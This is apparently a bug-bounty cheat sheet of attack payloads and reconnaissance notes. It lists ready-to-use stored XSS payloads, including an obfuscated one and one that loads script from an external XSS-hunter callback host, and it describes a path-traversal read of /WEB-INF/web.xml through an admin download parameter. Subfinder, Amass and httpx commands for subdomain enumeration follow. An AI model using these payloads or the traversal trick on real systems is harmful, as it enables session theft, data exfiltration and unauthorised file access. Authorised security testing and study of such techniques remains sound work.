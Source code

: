 # Payload Stored XSS
#### <img src=x onerror​=alert(origin)>
#### <img src="X" onerror​=top[8680439..toString(30)](1337)>
#### test“;”/></{dynamic tag}></script><script/SRC=//{xss hunter url} /  (stored xss)

# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# subdomain finder

#### subfinder -d yourdomain_name -v  
      -d = particular one domain enumurate <br>
      -dl = Maltipull domain enumurate from a file <br>
      -o, -output string = file to write output to <br>
      -silent = show only subdomains name in output <br>
      -nW, -active = display active subdomains only <br>
      -oI, -ip = include IP address and domain name in output (-active only) <br>
      -max-time int = minutes to wait for enumeration results (default 10) <br>
      -ei, -exclude-ip = exclude IPs from the list of domains <br>


 go-to tools 
#Subfinder, 
#Amass, 
#Bbot 
to gather subdomains.
==================================================
 filtered the live ones with #httpx.

using the 
#"-sc — title" 
flags because they show the status code and page title, which helps me spot interesting subdomains faster. 
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

